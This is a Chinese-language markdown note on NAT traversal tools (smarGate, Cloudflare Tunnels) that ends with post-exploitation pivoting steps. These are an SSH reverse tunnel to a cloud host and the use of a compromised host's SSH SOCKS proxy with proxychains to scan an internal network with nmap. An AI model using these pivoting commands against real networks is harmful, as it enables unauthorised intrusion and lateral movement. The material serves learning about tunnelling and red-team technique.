 ##### smarGate
不知道底层协议是不是前面的标准P2P协议STUN/TURN
![](/docs/docs_image/software/network/nat_traversal_smargate.png)

其中很多的穿透类产品通常直接将访问入口定义到公网服务器上，就像将自家防盗门放到公共场所，即使需要钥匙，也难防技艺高超的开锁匠。
smarGate的做法是将防盗门随身携带，自主可控，可以自定义服务器来代替官方提供的免费代理服务器

安全问题：
希望smarGate后续可以开源，至少移除默认的认证服务器，否则如何让用户相信smarGate没有收集用户数据

## 实例：
### Cloudfalre Tunnels
[使用Cloudfalre Tunnels实现内网穿透，同时突破80/443限制](https://mp.weixin.qq.com/s/W5ykzfYpLpmxpwxH6q_P4w)

### 实战课: 从"NAT端口转发"到"代理服务tunnel"拿shell
[实战课: 从"NAT端口转发"到"代理服务tunnel"拿shell](https://mp.weixin.qq.com/s?__biz=MzU1NTUyMzYzMg==&mid=2247483910&idx=1&sn=cdfe82e503449f46ad1a5f7f51876a33&chksm=fbd24959cca5c04f7f5cfbbb63e2230a7ba7c6134bc6f5c2241b394c8f9e57808f34bc9f2a8e&token=1983430103&lang=zh_CN#rd)

	+ NAT路由器端口转发
	+ 代理服务器tunnel `ssh -R443:localhost:443 -R444:localhost:444 -R445:localhost:445 -p8022 -lroot 云主机IP`

### 后渗透 pivot-内网扫描，参考《tools_metasploit》

```
通过控制的某个主机的meterpreter session来扫描整个内网
https://redteamnation.com/pivoting/

e.g. the compromised host 192.168.1.22 has access to a private network at 172.17.0.0/24.

方法一：使用proxychain
假设我们拿到主机192.168.1.22的ssh，我们可以开一个tunnel：
ssh -D 4444 admin@192.168.1.22
然后在attacker机器设置proxychains config：
注释掉proxy_dns，开启 socks4 127.0.0.1 4444
然后执行
proxychains nmap -Pn -sT 172.17.0.0/24
这样nmap就会通过444端口将流量转发到 192.168.1.22 主机上

```